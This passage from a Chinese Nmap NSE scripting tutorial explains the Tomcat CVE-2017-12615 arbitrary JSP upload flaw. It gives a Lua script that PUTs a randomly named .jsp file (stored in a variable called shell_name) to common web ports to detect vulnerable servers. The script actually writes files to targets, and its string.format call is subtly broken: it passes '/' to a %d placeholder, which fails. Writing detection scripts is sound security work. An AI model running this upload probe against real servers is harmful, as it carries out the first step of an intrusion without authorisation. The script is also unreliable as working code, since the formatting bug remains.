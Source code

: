 执行结果：

![2019-04-24-10-16-22](https://images.payloads.online/712f5dce-4f5f-11ec-b79d-00d861bf4abb.png)

- 返回值：

该函数返回一个响应表，具体可参考前面的0X02响应表

## 0X06 编写一个检测CVE-2017-12615的脚本

为了检验读者对之前的内容是否有所收获，所以产生一个需求，编写一个针对CVE-2017-12615的漏洞检测脚本。首先我们需要了解这个漏洞：

> 编写CVE-2017-12615的漏洞检测脚本

攻击者可以利用这个漏洞，向目标服务器上传恶意 JSP 文件，通过上传的 JSP 文件 ，可在用户服务器上执行任意代码，从而导致数据泄露或获取服务器权限，存在高安全风险。

漏洞的利用方式是通过PUT请求，这让我们不得不学习一个新的函数——put函数，它的参数类似于post函数。

- host : host表
- port : port 表
- path : 请求路径，默认是根路径“/”
- options : 用于设置请求相关的Cookie、超时时间、header
- putdata : 要上传的文件的内容

这里我使用Docker已经搭建好了一个Tomcat环境：

![2019-04-24-10-17-24](https://images.payloads.online/716bc3cc-4f5f-11ec-ae7c-00d861bf4abb.png)


编写的脚本如下：

```lua
local stdnse = require "stdnse"
local http = require "http"
prerule=function()
end
hostrule=function(host)
	return false
end

portrule=function(host,port)
	local ports = {80,8080,8090,8899}
	for i in pairs(ports)do
		if(port.number == ports[i])then
			return true
		end
	end
end


action = function(host,port)
	local shell_name = string.format("/%d.jsp","/",math.random(9999))
	local status = stdnse.output_table()
	local put_rsp = http.put(host,port,shell_name.."/",nil,"CVE-2017-12615")
	if(put_rsp.status == 201)then
		status.shell_name = shell_name
		return status
	end
	return false
end
postrule=function()
end
```
